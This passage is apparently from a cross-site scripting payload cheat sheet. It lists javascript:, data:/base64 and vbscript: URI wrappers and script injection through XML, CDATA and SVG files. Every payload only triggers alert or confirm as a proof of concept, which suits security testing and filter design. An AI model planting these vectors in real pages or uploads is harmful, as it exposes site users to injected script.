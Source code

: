 ```javascript
javascript://%0Aalert(1)
javascript://anything%0D%0A%0D%0Awindow.alert(1)
```

### Wrapper data

```javascript
data:text/html,<script>alert(0)</script>
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

### Wrapper vbscript

only IE

```javascript
vbscript:msgbox("XSS")
```

## XSS in Files

**NOTE:** The XML CDATA section is used here so that the JavaScript payload will not be treated as XML markup.

```xml
<name>
  <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
</name>
```

### XSS in XML

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```

### XSS in SVG

Simple script. Codename: green triangle

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(document.domain);
  </script>
</svg>
```
